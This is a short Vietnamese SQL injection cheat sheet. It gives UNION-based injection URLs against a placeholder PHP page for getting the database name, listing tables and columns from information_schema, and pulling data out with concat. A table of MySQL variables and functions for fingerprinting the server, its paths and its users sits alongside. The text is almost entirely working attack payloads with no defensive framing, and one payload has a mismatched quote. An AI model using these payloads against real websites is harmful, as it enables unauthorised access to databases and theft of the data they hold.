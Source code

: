 ## check database khi biết cột lỗi;
- thay cột lỗi bằng database
`http://fakesite.com/report.php?id=-23 union select 1,2,database(),4,5-- -`

|Variable.Function|ahihi|Output|
|----------|-------------|--------------|
|@@hostname	|:|	Tên máy chủ hiện tại|
|@@tmpdir|	:	|Tept Directory|
|@@datadir|	:	|Thư mục Dữ liệu|
|@@version|	:	|Phiên bản của DB|
|@@basedir|	:	|Thư mục cơ sở|
|user()|	:	|Người dùng hiện tại|
|database()|	:	|Cơ sở dữ liệu hiện tại|
|version()|	:	|	Phiên bản|
|schema()|	:	|	Cơ sở dữ liệu hiện tại|
|UUID()|	:	|	Khóa UUID của Hệ thống|
|current_user()|	:	|Current User|
|current_user|	:	|Current User|
|system_user()|	:	|Current Sustem user|
|session_user()|	:	|Session user|
|@@GLOBAL.have_symlink|	:	|Check if Symlink Enabled or Disabled|
|@@GLOBAL.have_ssl|	:	|Check if it have ssl or not|



- lấy ra tên bảng 
```
http://fakesite.com/report.php?id=-23 union select 1,2,table_name,4,5 from information_schema.tables where table_schema="tên database"-- -
```

-lấy ra tên cột:
```
http://fakesite.com/report.php?id=-23 union Select 1,2,column_name,4,5 from information_schema.columns where table_schema='tên database" and table_name='tablenamehere'-- -
```

- trích dữ liệu:

```
http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tên bảng-- -
```

